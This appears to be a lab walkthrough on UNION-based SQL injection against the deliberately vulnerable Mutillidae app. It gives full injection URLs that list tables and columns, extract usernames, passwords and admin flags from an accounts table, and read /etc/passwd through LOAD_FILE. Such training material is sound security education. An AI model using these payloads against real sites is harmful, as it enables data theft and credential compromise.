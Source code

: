 ![image](https://github.com/user-attachments/assets/f8cf1896-c904-42f0-8584-fc37f02a186c)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/5b867699-dac3-4830-9aec-e6eda8a7e15f)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/user-attachments/assets/c8ab2df5-0a77-4c64-bb7f-ab360a438c1c)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/bd01c461-5067-4787-b06f-33144d039145)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/b315d53d-3a8b-4282-b48a-7e1d8acaa2bc)

Reading and writing files on the web-server We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
